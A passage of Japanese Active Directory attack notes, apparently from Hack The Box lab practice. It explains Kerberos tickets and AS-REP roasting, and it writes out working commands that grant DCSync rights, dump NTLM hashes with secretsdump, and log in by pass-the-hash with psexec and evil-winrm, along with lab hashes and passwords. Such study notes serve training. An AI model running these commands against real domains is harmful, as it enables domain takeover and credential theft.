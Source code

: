 ```
  3. 問題なければASからTGTチケットを払いだす
  4. TGTチケットをTGSに送信し、利用したいサーバー用のチケットを要求
  5. TGSから利用したいサーバー用のチケットを発行
  6. 利用したいサーバーに対して、TGSから発行されたチケットを送信
  7. チケットに問題がなければサーバーが利用可能となる


### 他グループに所属しているアカウントの侵害
仮にEXCHANGE WINDOWS PERMISSIONSグループにAdminがあるが、自分が侵害したアカウントは別グループである場合は、  
EXCHANGE WINDOWS PERMISSIONSグループからGenericAllを付与されている場合は、ユーザーを作成してそのグループに加入  
以下は、ドメインユーザーにNTDS.ditというDC SYNCを渡すために、必要なクレデンシャル情報などを作成  
これにより、wackerにNTDS.dit(DC SYNC)が渡される  

```
$passwd = convertto-securestring 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\wacker', $passwd)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wacker -Rights DCSync
```

ここで、secretdump.pyを実行することで、NTLMハッシュをダンプできる。

```
impacket-secretsdump htb.local/wacker:password@10.10.10.161
```

NTLMハッシュを取得したら以下で接続
```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```



### AS-REP Roasting
ADのリソースにアクセスするためには、ユーザはまずDCに存在するKDC（Key Distribution Center）からTGT（Ticket Granting Ticket）を要求することになります。  

TGTを要求（AS-REQと呼ばれる）するために、ユーザは「自身のNTハッシュを利用してタイムスタンプを暗号化したもの」を含めて送信します。  

KDCはこの暗号化されたタイムスタンプを受け取ると、あらかじめ保持しているそのユーザのNTハッシュを使ってタイムスタンプの復号をし、比較します。  
比較して問題がなければユーザにTGTを発行します（AS-REPと呼ばれる）。  

ただし、デフォルトでは有効になっている事前認証（自身のNTハッシュを利用してタイムスタンプを暗号化するステップ）を無効に設定することもできます。  

これにより、事前認証が不要なユーザカウントの場合パスワードを知らなくてもTGTをリクエストでき、TGTを受け取ったらオフラインクラックをすることでパスワードを特定することが可能となります。  
TGTにはクライアントのパスワードが元になって暗号化されたデータがあるので、そのデータをオフラインクラックするイメージです。  


### DCSync
ユーザー名パスワードが漏れている状態でBloodHound等でDCSync攻撃ができると分かった場合

```
$ python3 secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
